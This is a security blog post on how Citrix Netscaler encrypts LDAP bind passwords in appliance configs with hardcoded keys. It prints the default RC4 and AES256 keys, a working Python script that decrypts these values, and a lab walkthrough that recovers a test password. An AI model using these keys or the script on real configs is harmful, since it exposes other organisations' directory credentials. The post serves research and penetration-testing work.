 ```yaml
---
layout: page
title: Citrix Netscaler config decryption
permalink: /posts/citrix-decrypt/
redirect_from:
  - /citrix-decrypt/
---
```


## Netscaler

Citrix Netscaler (or whatever they're calling it now) uses hardcoded encryption keys to encrypt at least some passwords stored in the appliance config, most importantly for LDAP bind passwords. As a side note - **the passwords for accessing the appliance itself via CLI or GUI are hashed, not encrypted**. You can still attempt to break these using hashcat but it requires bruteforcing.

However, some other values in the config like LDAP bind passwords are encrypted and can be recovered as by default they are encrypted by hardcoded keys that seem to be common to all Netscalers. These static encryption keys are compliled into the `libnscli90.so` library on the appliance. As of 10.5 this was the RC4 key `2286da6ca015bcd9b7259753c2a5fbc2`. At some point Citrix changed the default key and cipher used to encrypt cleartext values. The default key is now 
```
351CBE38F041320F22D990AD8365889C7DE2FCCCAE5A1A8707E21E4ADCCD4AD9
```
and the appliance now (12.0) uses AES256-CBC instead of RC4. I figured out after a quick bit of RE that the version signifier seems the be the `-encryptmethod` flag, where `ENCMTHD_3` signifies it is using AES256-CBC and the new default key.   


### Additional notes
If you add an old style (RC4) encrypted value to a newer appliance it will decrypt it, then re-encrypt using the new ENCMTHD_3 technique. A small number examples online appear to use the `ENCMTHD_2` value, which is uses the new key and AES256-ECB instead of CBC. 

*If the config line says -kek at the end you'll need to pull key encryption keys off the appliance and do a little more reversing, see [this blog post for a reference on the Netscaler KEK](https://www.ferroquesystems.com/resource/citrix-adc-security-kek-files/)*


## Decrypting
Here's a quick guide on how to decrypt these LDAP passwords:

1. If there is a `-kek` flag on the config line this means it is using a seperate key to encrypt the password instead of the hardcoded one. In theory you should be able to pull this off a compromised Netscaler but a config alone wont give you the cleartext. See [this blog post for a reference on the Netscaler KEK](https://www.ferroquesystems.com/resource/citrix-adc-security-kek-files/). I will look into doing this at some point and update this post.
2. If there is no `ENCMTHD_` value, it is likely encrypted using the original RC4 method (I'm calling this ENCMTHD_1). You can decode this using the below script. 
3. Otherwise if there is `ENCMTHD_3` or `ENCMTHD_2` and no `-kek` it uses the new AES256-CBC or AES256-ECB encryption method. You can also decode this using the below script.

An example line from a new config may look like 
```
add authentication ldapAction LDAP_mgmt -serverIP 192.168.200.130 -serverPort 636 -ldapBase "DC=citrix,DC=lab" -ldapBindDn readonly@citrix.lab -ldapBindDnPassword b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f -encrypted -encryptmethod ENCMTHD_3 -ldapLoginName sAMAccountName -searchFilter "&(memberof=CN=NSG_Admin,OU=AdminGroups,DC=citrix,DC=lab)" -groupAttrName memberOf
```
indicating that it is encrypted with AES256-CBC using the default key.

Extract the ldapBindDnPassword and pass it to the script:
```
# python decitrix.py b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f ENCMTHD_3
test12345678secretldappassword
```

## Decrypting script
The below python script will decrypt LDAP and likely similar encrypted values (haven't tested anything else) obtained from the config.
{% highlight python %}
#!/usr/bin/python

import base64
from Crypto.Cipher import AES,ARC4
import binascii,sys


BS = 16
unpad = lambda s : s[:-ord(s[len(s)-1:])]

#thanks  https://stackoverflow.com/a/12525165 for crypto snippet
class AESCipher:
    def __init__( self, key ):
        self.key = key

    def decrypt( self, enc, mode ):
        if mode == "ENCMTHD_2":
                cipher = AES.new(self.key, AES.MODE_ECB )
        elif mode == "ENCMTHD_3":
                iv = "\x00" * 16
                cipher = AES.new(self.key, AES.MODE_CBC, iv )

        else:
            print "Invalid mode"
            return False

        return unpad(cipher.decrypt( enc ))


def main():
        #Keys hardcoded into netscaler libnscli90.so
        aeskey = binascii.unhexlify("351CBE38F041320F22D990AD8365889C7DE2FCCCAE5A1A8707E21E4ADCCD4AD9")
        rc4key = binascii.unhexlify("2286da6ca015bcd9b7259753c2a5fbc2")

        if len(sys.argv) == 3:
            ciphertext = sys.argv[1]
            mode = sys.argv[2]

            if mode == "ENCMTHD_3" or mode == "ENCMTHD_2":
                c = AESCipher(aeskey)
                decoded = c.decrypt(binascii.unhexlify(ciphertext),mode)
                if mode == "ENCMTHD_3":
                        print decoded[16:]
                else:
                        print decoded

            elif mode == "ENCMTHD_1": #old rc4 mode
                out_cipher = ARC4.new(rc4key)
                decoded = out_cipher.decrypt(binascii.unhexlify(ciphertext))
                print decoded


if __name__ == "__main__":
        main()
{% endhighlight %}



#### Runthrough

```
>add authentication ldapAction LDAP_mgmt -serverIP 192.168.200.130 -serverPort 636 -ldapBase "DC=citrix,DC=lab" -ldapBindDn readonly@citrix.lab -ldapBindDnPassword test12345678secretldappassword -ldapLoginName sAMAccountName -searchFilter "&(memberof=CN=NSG_Admin,OU=AdminGroups,DC=citrix,DC=lab)" -groupAttrName memberOf
Done
>show running
..snip..
add authentication ldapAction LDAP_mgmt -serverIP 192.168.200.130 -serverPort 636 -ldapBase "DC=citrix,DC=lab" -ldapBindDn readonly@citrix.lab -ldapBindDnPassword b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f -encrypted -encryptmethod ENCMTHD_3 -ldapLoginName sAMAccountName -searchFilter "&(memberof=CN=NSG_Admin,OU=AdminGroups,DC=citrix,DC=lab)" -groupAttrName memberOf
..snip..

# python decitrix.py b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f ENCMTHD_3
test12345678secretldappassword
```

